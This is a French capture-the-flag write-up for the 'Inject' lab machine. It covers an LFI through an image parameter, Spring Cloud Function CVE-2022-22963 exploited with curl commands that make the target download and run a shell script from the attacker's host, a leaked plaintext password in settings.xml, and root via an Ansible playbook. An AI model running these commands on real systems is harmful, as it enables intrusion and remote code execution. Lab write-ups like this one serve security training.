 # Inject - Easy

```bash
nmap -sV -sC 10.10.11.204 -p-
Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-13 17:07 EDT
Nmap scan report for 10.10.11.204
Host is up (0.060s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ca:f1:0c:51:5a:59:62:77:f0:a8:0c:5c:7c:8d:da:f8 (RSA)
|   256 d5:1c:81:c9:7b:07:6b:1c:c1:b4:29:25:4b:52:21:9f (ECDSA)
|_  256 db:1d:8c:eb:94:72:b0:d3:ed:44:b9:6c:93:a7:f9:1d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
|_http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.04 seconds
```

On visite donc le site sur le port 8080, on lance un gobuster en fond.

On remarque sur la page upload lorsque l’on upload une image elle est ajoutée ici:

```bash
http://10.10.11.204:8080/show_image?img=photo-1533450718592-29d45635f0a9-1129768782.jpeg
```

On essaye donc une LFI avec burpsuite et on peut lire le fichier.

On sait donc qu’il y a les utilisateurs frank et phil, on essaye de récupérer les fichiers du site, vu que on peut énumérer les répertoires avec le lien précédent c’est facile de trouver le site:

```java
/var/www/WebApp/

private static String UPLOADED_FOLDER = "/var/www/WebApp/src/main/uploads/";

    @GetMapping("")
    public String homePage(){
        return "homepage";
    }

    @GetMapping("/register")
    public String signUpFormGET(){
        return "under";
    }

    @RequestMapping(value = "/upload", method = RequestMethod.GET)
    public String UploadFormGet(){
        return "upload";
    }

    @RequestMapping(value = "/show_image", method = RequestMethod.GET)
    public ResponseEntity getImage(@RequestParam("img") String name) {
        String fileName = UPLOADED_FOLDER + name;
        Path path = Paths.get(fileName);
        Resource resource = null;
        try {
            resource = new UrlResource(path.toUri());
        } catch (MalformedURLException e){
            e.printStackTrace();
        }
        return ResponseEntity.ok().contentType(MediaType.IMAGE_JPEG).body(resource);
    }

    @PostMapping("/upload")
    public String Upload(@RequestParam("file") MultipartFile file, Model model){
        String fileName = StringUtils.cleanPath(file.getOriginalFilename());
        if (!file.isEmpty() && !fileName.contains("/")){
            String mimetype = new MimetypesFileTypeMap().getContentType(fileName);
            String type = mimetype.split("/")[0];
            if (type.equals("image")){

                try {
                    Path path = Paths.get(UPLOADED_FOLDER+fileName);
                    Files.copy(file.getInputStream(),path, StandardCopyOption.REPLACE_EXISTING);
                } catch (IOException e){
                    e.printStackTrace();
                }
                model.addAttribute("name", fileName);
                model.addAttribute("message", "Uploaded!");
            } else {
                model.addAttribute("message", "Only image files are accepted!");
            }
            
        } else {
            model.addAttribute("message", "Please Upload a file!");
        }
        return "upload";
    }

    @GetMapping("/release_notes")
    public String changelog(){
        return "change";
    }

    @GetMapping("/blogs")
    public String blogPage(){
        return "blog";
    }
```

Avec le code source on va donc essayer d’exploiter l’upload en uploadant une reverse shell mais finalement ce n’est pas possible car rien ne passe le filtre. On essaye de chercher dans les fichiers du serveur. En consultant le pom.xml on se rend compte que une des dépendances est vulnérable

[https://spring.io/security/cve-2022-22963](https://spring.io/security/cve-2022-22963)

[https://github.com/me2nuk/CVE-2022-22963](https://github.com/me2nuk/CVE-2022-22963)

```bash
curl -X POST  http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("curl http://10.10.16.6:8000/shell.sh > /tmp")' --data-raw 'data' -v
curl -X POST  http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("chmod +x /tmp/shell.sh")' --data-raw 'data' -v
curl -X POST  http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("/tmp/shell.sh")' --data-raw 'data' -v

```

On obtient un reverse shell. On trouve un playbook dans /opt

```bash
cat playbook_1.yml
- hosts: localhost
  tasks:
  - name: Checking webapp service
    ansible.builtin.systemd:
      name: webapp
      enabled: yes
      state: started
```

Et on trouve ça dans .m2

```bash
cat settings.xml 
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

On se connecte avec su en tant que phil vu que le ssh ne marche pas. On obtient le flag user

```bash
script -qc /bin/bash /dev/null
```

On obtient facilement le root avec le playbook trouvé précedemment:

[https://rioasmara.com/2022/03/21/ansible-playbook-weaponization/](https://rioasmara.com/2022/03/21/ansible-playbook-weaponization/)

On attend et on fait 

```bash
bash -p
```